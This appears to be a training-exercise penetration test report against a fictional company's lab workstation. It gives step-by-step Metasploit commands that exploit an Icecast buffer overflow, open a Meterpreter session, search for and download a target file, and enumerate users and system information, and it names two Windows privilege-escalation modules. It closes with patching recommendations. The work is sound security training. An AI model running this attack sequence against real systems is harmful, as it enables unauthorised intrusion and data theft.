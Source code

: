 # Penetration_Test_Engagement

In this activity, I played the role of an independent penetration tester hired by "GoodCorp Inc." to perform security tests against their CEO's workstation.

## GoodSecurity Penetration Report

JosephMossman@GoodSecurity.com

### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.

### 2.0 Findings

**Machine IP:**

192.168.0.20

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

Icecast Header Overwrite

![Icecast_Vulnerability](Screenshots/search_icecast_command.png)

**Vulnerability Explanation:**
 
The Icecast Header Overwrite vulnerability running on 192.168.0.20 Host allows a buffer overflow exploit that lets an attacker system gain remote control of the victim system by overwriting the memory on the system. The exploit writes past the end of a pointer array when receiving 32 HTTP headers. This allowed for a variety of remote actions, such as file discovery and download, key logging, screen capture, and privilege escalation to Administrator.

**Severity:**

The severity of this vulnerability is High, with a CVSS score of 7.5.

**Proof of Concept:**

Perform a service and version scan using Nmap to determine which services are up and running:

-Run the Nmap command that performs a service and version scan against the target.

 **Answer:** nmap -sV 192.168.0.20

 ![nmap](Screenshots/nmap_command.png)

From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

-Run the SearchSploit commands to show available Icecast exploits.

 **Answer:** searchsploit icecast

 ![searchsploit_icecast](Screenshots/searchsploit_icecast_command.png)

Now that we know which exploits are available to us, let's start Metasploit:

-Run the command that starts Metasploit:

 **Answer:** msfconsole

 ![msfconsole](Screenshots/msfconsole_command.png)
 
Search for the Icecast module and load it for use.

-Run the command to search for the Icecast module:

 **Answer:** search icecast

 ![search_icecast](Screenshots/search_icecast_command.png)
 
-Run the command to use the Icecast module:

 **Answer:** use 0

 ![use](Screenshots/use_0_command.png)
 
-Run the command that sets the RHOST:

 **Answer:** set RHOST 192.168.0.20

 ![RHOST](Screenshots/use_rhost_command.png)
 
-Run the command that runs the Icecast exploit.

 **Answer:** exploit

 ![exploit](Screenshots/exploit_command.png)
 
You should now have a Meterpreter session open.

-Run the command that performs a search for the secretfile.txt on the target.

 **Answer:** search -f *secretfile*.txt

 ![secretfile](Screenshots/secretfile_command.png)

-Run the command to performs a search for the recipe.txt on the target:

 **Answer:** search -f *recipe*.txt

 ![recipe](Screenshots/recipe_command.png)

-Run the command that ex-filtrates the recipe*.txt file:

 **Answer:** download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’

 ![exfiltrate](Screenshots/exfiltrate_recipe_command.png)

Verify that you have successfully downloaded the file.

 **Verification:**

 ![verification](Screenshots/verify_drinks.png) 

You can also use Meterpreter's local exploit suggester to find possible exploits.

-Run the command to use Meterpreter’s local exploit suggester.

 **Answer:** run post/multi/recon/local_exploit_suggester

 ![exploit_suggestor](Screenshots/exfiltrate_recipe_command.png)

-Run a Meterpreter post script that enumerates all logged on users.

 **Answer:** run post/windows/gather/enum_logged_on_users

 ![enum_users](Screenshots/logged_on_users_command.png)

-Run the command to open a Meterpreter shell and gather system information for the target.

 **Answer:** shell

 ![shell](Screenshots/shell_command.png)

-Run the command that displays the target's computer system information:

 **Answer:** systeminfo

 ![systeminfo](Screenshots/systeminfo_command.png)

### Separate findings for each vulnerability can be found below:

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ikeext_service

**Vulnerability Explanation:**

The ikeext_service vulnerability utilizes a missing Dynamic-link library (DLL) in Microsoft’s operating system that runs as SYSTEM and starts automatically in default installations of select windows operating systems. This vulnerability can be used for privilege escalation under the SYSTEM account. It requires an insecure bin path to plant the DLL payload.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.0.

**Proof of Concept:** 

 ![ikeext_proof](Screenshots/ikeext_vulnerability.png)

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ms16_075_reflection

**Vulnerability Explanation:**

The ms16_075_relfection vulnerability utilizes a reflection link between Distributed Component Object Model (DCOM) and Remote procedure call (RPC) that allows local users to use a crafted application to gain a SYSTEM handle for privilege escalation. The module does not start as SYSTEM by default. Once gaining a shell SYSTEM impersonation is possible.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.9.

**Proof of Concept:** 

 ![ms16_proof](Screenshots/ms16_075_reflection_vulnerability.png)

### 3.0 Recommendations

The Icecast Header Overflow exploit is an older vulnerability that can be fixed with a current patch. It is recommended to update to the latest version of Icecast, found here: https://icecast.org/download/

Other technical recommendations would be to encrypt all sensitive data and enable firewall rules to only allow traffic on needed ports. 

